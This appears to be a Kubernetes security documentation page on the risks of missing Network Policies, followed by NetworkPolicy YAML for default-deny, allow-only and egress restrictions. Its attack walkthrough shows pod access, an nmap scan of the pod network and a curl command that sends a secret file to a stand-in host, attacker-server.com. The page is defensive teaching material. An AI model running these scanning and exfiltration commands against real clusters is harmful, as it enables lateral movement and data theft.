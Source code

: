 ```yaml
---
sidebar_position: 5
title: Lack of Network Policies
description: Understanding the risks of unregulated network traffic in Kubernetes and implementing best practices with Network Policies.
---
```


# Lack of Network Policies

The absence of Network Policies in a Kubernetes cluster can lead to unrestricted communication between pods, allowing lateral movement and data exfiltration. Without network segmentation, an attacker who gains access to a single pod can move freely within the cluster.

---

## Exploitation Steps: Lateral Movement in Kubernetes

An attacker gains initial access to a compromised pod:

```bash
kubectl exec -it <compromised-pod> -- /bin/sh
```

### 1. Scan the Internal Network

The attacker discovers other pods and services in the cluster using internal scanning tools:

```bash
apt-get update && apt-get install -y nmap
nmap -p 80,443,8080 10.0.0.0/24
```

### 2. Access Sensitive Services

The attacker can connect to open services in other pods, such as databases or APIs:

```bash
curl http://10.0.0.15:8080/secret-data
```

### 3. Exfiltrate Data to an External Server

The attacker sends sensitive data to an external server using a simple HTTP request:

```bash
curl -X POST -d @/path/to/secret-data http://attacker-server.com/upload
```

### Result

The attacker can move laterally within the cluster, access sensitive data, and exfiltrate information without network restrictions.

---

## Mitigation Techniques and Fixes

### 1. Implement Default Deny Policies

**Issue:** By default, all pods can communicate with each other, creating security risks.<br/>
**Fix:** Apply a default deny policy to block all traffic by default.

#### Example of Default Deny Policy for Ingress and Egress

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: default
spec:
  podSelector: {}
  policyTypes:
    - Ingress
    - Egress
```

### 2. Create Allow-Only Policies

**Issue:** Lack of specific allow rules means that unwanted traffic is not blocked.<br/>
**Fix:** Use Network Policies to allow traffic only to specific pods or services.

#### Example Allowing Traffic Only to an Application Pod

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-app-traffic
  namespace: default
spec:
  podSelector:
    matchLabels:
      app: my-app
  policyTypes:
    - Ingress
  ingress:
    - from:
        - podSelector:
            matchLabels:
              role: frontend
      ports:
        - protocol: TCP
          port: 80
```

### 3. Restrict Egress Traffic

**Issue:** Unrestricted outgoing traffic can leak sensitive data to external servers.<br/>
**Fix:** Define egress rules to control outbound connections.

#### Example Egress Policy Allowing Only Specific Destinations

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: restrict-egress
  namespace: default
spec:
  podSelector:
    matchLabels:
      role: database
  policyTypes:
    - Egress
  egress:
    - to:
        - ipBlock:
            cidr: 10.0.0.0/24
      ports:
        - protocol: TCP
          port: 5432
```

---

## Conclusion

To enhance security and limit lateral movement within the Kubernetes cluster:

- Implement default deny policies for ingress and egress traffic.
- Create specific allow rules using Network Policies.
- Regularly audit and validate network policies to ensure only necessary communication is allowed.
